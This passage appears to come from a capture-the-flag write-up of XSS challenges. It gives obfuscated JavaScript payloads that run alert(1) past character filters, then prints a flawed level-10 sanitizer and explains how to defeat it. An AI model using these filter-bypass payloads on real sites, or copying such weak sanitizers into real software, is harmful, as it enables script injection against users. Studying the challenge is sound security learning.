 We can join what we have to create the following string:

    []['at']['constructor']('alert(1)')()

One possible resulting payload is:

    à=''+!!''+!'',ì=[][à[1]+à[5]]+à,ù=à[1]+à[2]+à[4]+à[6]+à[5]+'(1)',ò=ì[3]+ì[6]+ì[2]+à[3]+à[5]+à[6]+à[7]+ì[3]+à[5]+ì[6]+à[6],(_=>1)[ò](ù)()

This is not the only payload. The shortest known payload is 97 characters long and is the following:

    ([,하,,,,훌]=[]+{},[한,글,페,이,,로,드,ㅋ,,,ㅎ]=[!!하]+!하+하.ㅁ)[훌+=하+ㅎ+ㅋ+한+글+페+훌+한+하+글][훌](로+드+이+글+한+'(1)')()

## eXSStravaganza level 10
### The sanitizer

    function sanitize(input) {
        // sanitization!
        const sanitized = input
            .replace(/[<>="&%$#\\/]/g, '')
            .split('\n')
            .map(row => 'eval(sanitizeAgainAgain(sanitizeAgain("' + row + '")))')
            .join('\n');
        return '  \x3Cscript>\n' + sanitized + '\n  \x3C/script>'
    }

    var bad = ['<', '>', '&', '%', '$', '#', '[', ']', '|', '{', '}', ';', '\\', '/', ',', '"', '\'', '=', '`', '(', ')'];

    function sanitizeAgain(input) {
        // more sanitization!
        const sanitized = input.split('').filter(c => !bad.includes(c)).join('');
        return sanitized;
    }

    var regex = /[^A-z.\-]/g

    function sanitizeAgainAgain(input) {
        // even more sanitization!
        const sanitized = input.replace(regex, '');
        return sanitized;
    }

### The solution

We can leverage the fact that each line is evaluated at different times and that the function
`sanitizeAgain` has a `bad` character array and that `sanitizeAgainAgain` has a malformed regex
(the alphabetic characters check is flawed and allows the following characters to pass through:

    [\]^_`

In order to break the `sanitizeAgain` function we just have to shorten the `bad` array by calling `bad.length--`, then we can use the backtick character to overwrite the regex in order to break the `sanitizeAgainAgain` function.
